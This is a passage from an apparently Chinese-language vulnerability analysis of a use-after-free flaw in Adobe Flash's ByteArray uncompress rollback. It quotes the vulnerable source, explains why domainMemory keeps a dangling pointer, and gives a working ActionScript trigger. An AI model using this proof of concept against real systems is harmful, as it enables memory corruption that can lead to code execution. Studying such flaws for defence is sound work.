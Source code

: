 ```
        // 2) put the original data back.
m_buffer->array    = origData;
m_buffer->length   = origLen;
m_buffer->capacity = origCap;
m_position         = origPos;
SetCopyOnWriteOwner(origCopyOnWriteOwner);
origBuffer = NULL; // release ref before throwing
toplevel()->throwIOError(kCompressedDataError);
    }

```

但是请注意：这里**并没有任何操作通知使用者新的缓冲区已经被释放！**因此，即使由于解压缩操作失败而导致新缓冲区被释放，ApplicationDomain.currentDomain.domainMemory 还是会保留新缓冲区的一个引用。我们稍后会间接引用该悬垂指针，因此这是一个use-after-free（UAF）漏洞。

0x03 触发UAF
==========

* * *

可以通过以下步骤来重现产生悬垂指针的情况：先向ByteArray添加数据，再用zlib压缩，然后在0x200偏移位置用垃圾数据覆盖掉原来的压缩数据，然后将此ByteArray指派给ApplicationDomain.currentDomain.domainMemory以创建ByteArray的使用者，最后调用ByteArray的uncompress()方法。

为什么要从从0x200位置开始覆盖压缩数据呢？这是因为在ByteArray的开始位置保留一些合法的压缩数据可以保证第一次对inflate()的调用成功；而且这样ByteArray::Write()方法也会正常创建Grower类的实例，该实例会为保存解压缩的数据增加目标缓冲区的长度，并通知所有的使用者可以使用新增长的缓冲区了。

循环中，第二次调用“inflate()和Write()”时，inflate()函数会尝试解压缩我们构造的垃圾数据，因此一定会失败。然后ByteArray::UncompressViaZlibVariant()就会执行回滚操作，释放掉新增加的缓冲区，但同时却不会通知ByteArray的所有使用者，所以就产生了悬垂指针。

下面的ActionScript代码片段可以重现该漏洞，使ApplicationDomain.currentDomain.domainMemory引用已释放缓冲区：

```
this.byte_array = new ByteArray();
this.byte_array.endian = Endian.LITTLE_ENDIAN;
this.byte_array.position = 0;
/* Initialize the ByteArray with some data */
while (count < 0x2000 / 4){
this.byte_array.writeUnsignedInt(0xfeedface + count);
count++;
}

/* Compress it with zlib */
this.byte_array.compress();

/* Overwrite the compressed data with junk, starting at offset 0x200 */
this.byte_array.position = 0x200;
while (pos < byte_array.length){
this.byte_array.writeByte(pos);
pos++;
}

/* Create a subscriber for that ByteArray */
ApplicationDomain.currentDomain.domainMemory = this.byte_array;

/* Trigger the bug! ByteArray::UncompressViaZlibVariant will leave ApplicationDomain.currentDomain.domainMemory
pointing to a buffer that is freed when the decompression fails. */
try{
this.byte_array.uncompress();
} catch(error:Error){
}

```

